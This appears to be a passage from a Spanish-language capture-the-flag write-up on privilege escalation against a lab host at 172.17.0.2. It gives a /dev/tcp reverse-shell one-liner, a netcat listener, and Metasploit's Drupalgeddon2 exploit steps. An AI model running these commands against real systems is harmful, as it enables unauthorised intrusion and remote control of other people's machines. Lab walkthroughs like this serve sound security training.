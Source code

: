 ## Escalada de Privilegios
### Enumeracion del Sistema
Nos enviaremos una **revershell** a nuestro equipo de atacante:
```bash
# Desde nuestra maquina atacante
echo -n "bash -c 'exec bash -i &>/dev/tcp/IP/PORT <&1'" | base64
```

Nos ponemos en escucha:
```bash
nc -nlvp 443
```

### Usamos Metasploit
Usamos esta herramienta ya que tive problemas al entablar la **revershell**
```bash
msfconsole
```

buscamos el mismo **exploit** que anteriormente habiamos usado:
```bash
search drupal 8
```

Usaremos este:
```bash
0   exploit/unix/webapp/drupal_drupalgeddon2       2018-03-28       excellent  Yes    Drupal Drupalgeddon 2 Forms API Property Injection

use 0
```

Vemos las opciones que tenemos disponibles:
```bash
show options

# Tendremos que setear estos valores.
RHOSTS                        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
```

Indicamos la direccion IP del target
```bash
set RHOST 172.17.0.2
```

Ejecutamos el **exploit**
```bash
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > run
```

Una ves terminado estaremos de nuevo dentro del target:
Nos enviaremos una shell a nuestro equipo de atacante.
```bash
shell # Esto lo ejecutamos desde metasploit
```
